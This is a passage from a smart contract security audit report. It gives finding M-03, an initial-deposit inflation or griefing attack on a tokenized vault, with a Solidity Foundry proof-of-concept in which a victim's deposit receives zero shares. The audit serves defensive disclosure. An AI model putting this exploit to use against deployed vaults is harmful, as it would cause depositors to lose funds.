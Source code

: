 **Recommendations**

Consider putting the minimum output as a parameter inside the `harvest` function, and if this function is planned to be frequently called by bots, it could be restricted so that only certain roles can invoke it.

### [M-03] Initial griefing attack possible

**Severity**

**Impact:** High, as the victim loses their funds

**Likelihood:** Low, as it comes at a cost for the attacker

**Description**

The famous initial deposit attack is largely mitigated by the solady library. However, doing this attack can cause some weird behavior that could grief users (at high cost of the attacker) and leave the vault in a weird state:

Here's a PoC showing the impacts

```solidity
    address bob = makeAddr("bob");

    function testInitialSupplyAttack() public {
    	// attacker starts with 13 ether
        _getCWETH(13e18 + 6);

        // initial small deposit
        vault.deposit(11,address(this));
        assertEq(10,vault.balanceOf(address(this)));

        // large deposit to inflate the exchange rate
        _COMET.safeTransfer(address(vault),11e18-9);

        // share price is not 1e18 assets
        assertEq(1e18,vault.convertToAssets(1));

        // boilerplate to get cWETHv3
        deal(_WETH,bob,1e18 + 3);
        vm.startPrank(bob);
        _WETH.safeApprove(_COMET,1e18+3);
        IComet(_COMET).supply(_WETH, 1e18+3);
        _COMET.safeApproveWithRetry(address(vault), type(uint256).max);

        // victim deposits into the vault
        vault.deposit(1e18+1,bob);
        // due to exchange rate gets 0 shares
        assertEq(0,vault.balanceOf(bob));
        vm.stopPrank();

        vault.redeem(10, address(this), address(this));
        console.log("exchange rate",vault.convertToAssets(1));
        console.log("_COMET.balanceOf(address(vault))",_COMET.balanceOf(address(vault)));
        console.log("_COMET.balanceOf(address(attacker))",_COMET.balanceOf(address(this)));
    }
```
